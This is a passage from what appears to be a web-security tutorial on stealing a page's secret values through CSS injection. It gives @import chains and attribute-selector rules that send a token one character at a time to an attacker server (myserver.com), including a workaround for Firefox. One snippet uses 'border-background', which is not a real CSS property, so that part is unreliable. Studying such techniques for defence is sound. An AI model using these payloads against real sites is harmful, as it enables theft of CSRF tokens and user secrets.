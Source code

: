 Therefore, it's necessary to set up two domains to avoid this situation.

Apart from that, the above method doesn't work in Firefox. Even if the response for the first request arrives, Firefox won't immediately update the style. It waits for all requests to complete before updating. For a solution, you can refer to this article by Michał Bentkowski (does the name sound familiar?): [CSS data exfiltration in Firefox via a single injection point](https://research.securitum.com/css-data-exfiltration-in-firefox-via-single-injection-point/). Remove the first import step and wrap each character's import in additional styles, like this:

``` html
<style>@import url(https://myserver.com/payload?len=1)</style>
<style>@import url(https://myserver.com/payload?len=2)</style>
<style>@import url(https://myserver.com/payload?len=3)</style>
<style>@import url(https://myserver.com/payload?len=4)</style>
<style>@import url(https://myserver.com/payload?len=5)</style>
<style>@import url(https://myserver.com/payload?len=6)</style>
<style>@import url(https://myserver.com/payload?len=7)</style>
<style>@import url(https://myserver.com/payload?len=8)</style>
```

This approach works fine in Chrome as well, so by adopting it, you can support both browsers simultaneously.

In summary, by using the `@import` CSS feature, we can achieve "loading new styles dynamically without reloading the page" and thereby steal each character one by one.

## Stealing one character at a time, too slow?

If we want to execute this type of attack in the real world, we may need to improve efficiency. Taking HackMD as an example, the CSRF token consists of 36 characters, so we would need to send 36 requests, which is quite a lot.

In fact, we can steal two characters at a time because, as mentioned in the previous section, besides the prefix selector, there is also a suffix selector. So we can do it like this:

``` css
input[name="secret"][value^="a"] {
  background: url(https://b.myserver.com/leak?q=a)
}

input[name="secret"][value^="b"] {
  background: url(https://b.myserver.com/leak?q=b)
}

// ...
input[name="secret"][value$="a"] {
  border-background: url(https://b.myserver2.com/suffix?q=a)
}

input[name="secret"][value$="b"] {
  border-background: url(https://b.myserver2.com/suffix?q=b)
}
```

In addition to stealing the prefix, we can also steal the suffix, effectively doubling the efficiency. It is important to note that the CSS for the prefix and suffix uses different properties, one using `background` and the other using `border-background`. This is because if we use the same property, the content will be overwritten by others, resulting in only one request being sent.
